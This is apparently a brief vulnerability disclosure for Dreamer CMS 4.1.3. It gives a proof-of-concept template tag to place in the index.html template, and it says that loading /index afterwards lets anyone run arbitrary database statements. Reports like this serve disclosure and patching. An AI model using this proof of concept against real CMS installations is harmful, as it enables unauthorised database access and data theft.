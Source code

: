 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

![1695623061634](https://github.com/cloverpray/cms/assets/92020978/c25f1389-888e-4353-a847-4aa85a41a9ef)


Then modify the index.html template

![1695623093374](https://github.com/cloverpray/cms/assets/92020978/677c3712-36f7-43c1-b22e-b2ea61579684)


poc：

```
    {dreamer-cms:list typeid="9jdjs0s8" pagenum="1" pagesize="5" flag="p" formkey="h4j2gb6u" addfields="href"}
                    <li style="background:url([field:litpic/]) center 0 no-repeat;"><a target="_blank" href="[field:href/]" title="[field:title /]"></a> </li>
    {/dreamer-cms:list}
```

Access /index after saving,Can execute any database statement

![1695623186022](https://github.com/cloverpray/cms/assets/92020978/904607fa-40fa-459d-b783-52e90fb87a8d)
